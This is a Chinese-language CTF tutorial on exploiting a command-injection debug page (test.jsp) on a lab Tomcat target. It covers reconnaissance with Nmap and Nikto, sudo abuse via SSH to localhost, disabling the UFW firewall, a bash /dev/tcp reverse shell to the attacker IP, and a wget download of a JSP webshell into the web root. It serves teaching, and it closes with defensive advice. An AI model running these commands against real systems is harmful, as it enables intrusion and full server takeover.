# CTF入门课程：P21：Web安全命令执行 🚀

在本节课中，我们将学习CTF比赛中一种常见的漏洞类型——命令执行漏洞。我们将了解其原理，并通过一个模拟的靶场环境，学习如何利用该漏洞获取系统权限并最终取得Flag。

## 概述

命令执行漏洞通常发生在Web应用程序需要调用外部程序处理数据时。如果应用程序对用户输入过滤不严，攻击者就可能注入恶意系统命令，从而控制服务器。

## 命令执行漏洞原理

当应用程序需要调用外部程序处理内容时，会使用执行系统命令的函数。例如，在PHP中，有 `system()`、`exec()`、`shell_exec()` 等函数。

如果用户可以控制这些函数中的参数，就能将恶意系统命令注入到正常命令中，造成命令执行攻击。

具体来说，在调用这些函数执行系统命令时，如果将用户的输入直接作为系统命令的参数拼接到命令行中，并且没有进行充分过滤，就会产生命令执行漏洞。

## 实验环境搭建

为了进行实践，我们需要搭建以下环境：
*   **攻击机**：Kali Linux，IP地址为 `192.168.1.105`。
*   **靶机**：Linux系统，IP地址为 `192.168.1.103`。

我们的明确目标是获取靶机上的Flag值。

## 第一步：信息探测

在开始攻击前，我们需要收集靶机的信息，例如开放的服务和版本。

上一节我们介绍了实验目标，本节中我们来看看如何收集信息。

以下是使用 `Nmap` 进行服务版本探测的命令：
```bash
nmap -sV 192.168.1.103
```

除了服务版本，我们还可以进行更全面的扫描。

以下是使用 `Nmap` 进行快速全面扫描的命令：
```bash
nmap -A -v -T4 192.168.1.103
```

除了 `Nmap`，我们还可以使用 `Nikto` 专门探测HTTP服务的信息。

以下是使用 `Nikto` 扫描HTTP服务的命令：
```bash
nikto -host http://192.168.1.103:8080
```
扫描结果显示，HTTP服务下存在一个 `test.jsp` 文件，这可能是一个有趣的切入点。

## 第二步：漏洞发现与初步利用

根据扫描结果，我们需要深入挖掘。我们发现了HTTP服务和一个 `test.jsp` 页面。

上一节我们探测到了潜在的目标，本节中我们来看看如何访问和测试这些目标。

在浏览器中访问 `http://192.168.1.103:8080`，可以看到默认的Tomcat中间件主页，其中显示了网站根目录信息。

访问 `http://192.168.1.103:8080/test.jsp`，页面提示这是一个调试页面，用于检测 `/tmp` 目录。它举例说明输入 `ls -l /tmp` 可以查看目录信息。

我们在输入框中尝试执行 `ls -l /tmp`，服务器返回了目录列表。这证实了该页面存在命令执行漏洞，我们可以通过Web应用在服务器上执行命令。

## 第三步：深入信息收集

确认漏洞存在后，我们需要收集更多系统信息，为后续提权做准备。

上一节我们验证了命令执行漏洞，本节中我们来看看如何利用它收集关键信息。

首先，我们执行更详细的目录列表命令来获取更多信息。
```bash
ls -alh /tmp
```
参数说明：`-a` 显示所有文件，`-l` 长格式显示，`-h` 人类可读格式。

接下来，我们查看系统上有哪些用户。
```bash
ls -alh /home
```
发现存在用户 `bill`。

然后，我们查看该用户目录下的文件。
```bash
ls -alh /home/bill
```
发现存在 `.ssh` 目录，说明该用户可能允许SSH登录。还发现提示该用户可能拥有 `sudo` 权限。

最后，我们查看系统详细信息。
```bash
uname -a
```
得知系统是Ubuntu，这提示我们系统可能默认安装了 `UFW` 防火墙。



## 第四步：利用SSH与SUDO提权



我们发现用户 `bill` 可能拥有 `sudo` 权限，并且系统开放了SSH服务。



上一节我们收集了用户和系统信息，本节中我们来看看如何利用这些信息提升权限。





首先，我们利用命令执行漏洞，通过SSH本地免密登录的特性，查看 `bill` 用户的 `sudo` 权限。
```bash
ssh bill@localhost sudo -l
```
命令执行成功，返回了 `bill` 可以以root权限执行命令的信息。

接着，我们利用该权限关闭系统的UFW防火墙，为后续操作扫清障碍。
```bash
ssh bill@localhost sudo ufw disable
```

## 第五步：获取反向Shell

关闭防火墙后，我们需要获得一个更稳定的、交互式的Shell会话，以便完全控制服务器。

上一节我们提升了权限并关闭了防火墙，本节中我们来看看如何建立反向Shell连接。



**方法一：使用Netcat反弹Shell**



首先，在攻击机上监听一个端口（例如4444）。
```bash
nc -lvp 4444
```

然后，在靶场的命令执行处，注入以下命令，将 `/bin/bash` 反弹到攻击机。
```bash
sudo bash -i >& /dev/tcp/192.168.1.105/4444 0>&1
```
命令解释：`bash -i` 启动交互式bash，`>& /dev/tcp/...` 将输入输出重定向到TCP连接，`0>&1` 将标准输入也重定向到标准输出。

执行后，在攻击机的Netcat监听端会获得一个具有root权限的Shell。可以执行 `id` 命令确认，并进入 `/root` 目录获取Flag。
```bash
cat /root/flag
```

**方法二：上传WebShell（备选思路）**





另一种思路是上传一个WebShell脚本到服务器网站目录，然后通过浏览器访问来控制服务器。

1.  在攻击机桌面准备好WebShell文件（例如 `shell.jsp`）。
2.  在攻击机桌面启动一个简易HTTP服务器。
    ```bash
    python -m SimpleHTTPServer
    ```
3.  在靶场命令执行处，使用 `wget` 命令下载WebShell到网站根目录（需提前从Tomcat主页获知）。
    ```bash
    sudo wget http://192.168.1.105:8000/shell.jsp -O /var/lib/tomcat8/webapps/ROOT/shell.jsp
    ```
4.  在浏览器中访问 `http://192.168.1.103:8080/shell.jsp`，即可通过Web界面执行命令。

## 总结与拓展

本节课中我们一起学习了命令执行漏洞的完整利用流程。

我们首先通过信息探测（Nmap， Nikto）发现目标。然后访问可疑页面（test.jsp）并验证了命令执行漏洞的存在。接着，我们利用漏洞收集系统信息（用户、权限、系统类型）。之后，我们利用发现的SSH和SUDO配置进行权限提升并关闭防火墙。最后，我们通过建立反向Shell（Netcat）的方式获得了服务器的完全控制权，并成功读取了Flag。



需要强调的是，实际CTF比赛或真实环境中的命令执行漏洞往往存在各种过滤和限制，不像本例中这样直接。攻击者需要灵活运用各种绕过技巧（如拼接、编码、使用替代命令等）。此外，并非所有靶机都开放SSH服务，因此WebShell上传也是需要掌握的重要技术。



命令执行漏洞产生的根本原因是：**应用程序在调用系统命令函数（如 `system()`， `exec()`）时，将未经验证或过滤不充分的用户输入直接拼接到了命令行中**。开发者应始终对用户输入进行严格的白名单验证和转义处理，以避免此类漏洞。